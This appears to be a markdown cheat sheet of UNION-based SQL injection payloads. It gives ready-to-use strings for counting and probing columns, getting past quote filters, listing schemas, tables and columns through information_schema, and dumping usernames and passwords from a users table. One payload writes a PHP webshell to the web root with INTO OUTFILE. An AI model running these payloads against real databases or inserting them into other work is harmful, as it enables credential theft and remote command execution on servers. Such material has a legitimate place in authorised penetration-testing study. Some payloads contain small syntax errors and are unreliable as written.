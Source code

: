 Enumerate column with useful data types
```sql
-- Assume no use of quote in payloads below for syntax highlighting ' SQL STATEMENT  
UNION SELECT 'a',NULL,NULL,NULL-- 
UNION SELECT NULL,'a',NULL,NULL-- 
UNION SELECT NULL,NULL,'a',NULL-- 
UNION SELECT NULL,NULL,NULL,'a'--
```

Bypassing `*`  and `"`
```sql
UNION ALL SELECT NULL,NULL,"HELLO",NULL--
```

```sql
-- Knowing the amount of columns; enumerate and use null to pad 
' UNION SELECT database(), user(), @@version, null -- // 
' -- Quote to fix markdown
-- Depending of number of columns and how the response is returned 
' UNION SELECT null, null, database(), user(), @@version  -- //
' -- Quote to fix markdown
-- Further enumeration, then target the tables and its data making it (by querying correcly) displayable
' union select null, table_name, column_name, table_schema, from information_schema.columns where table_schema=database() -- //
' -- Quote to fix markdown
-- Then go for the credentials
' UNION SELECT null, username, password, description, null FROM users -- //
```

If for example we need information from another table from the same database
```sql
--
UNION ALL SELECT NULL,NULL,version(),group_concat(schema_name) FROM information_schema.schemata

UNION ALL SELECT NULL,"HELLO",version(),group_concat(table_name) FROM information_schema.TABLES where table_schema="DBNAMEGOESHERE"

-- Do not need the Database name
UNION ALL SELECT NULL,current_user(),version(),group_concat(column_name) FROM information_schema.columns where table_name="TABLENAMEGOESHERE"
```

Union based injection to write a webshell to the filesystem 
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //
```

Get that interesting data.
```sql
-- Assume no use of quote in payloads below for syntax highlighting ' SQL STATEMENT  
UNION SELECT username, password FROM users--
--  Retrieving multiple values within a single column
UNION SELECT username || '~' || password FROM users--
```
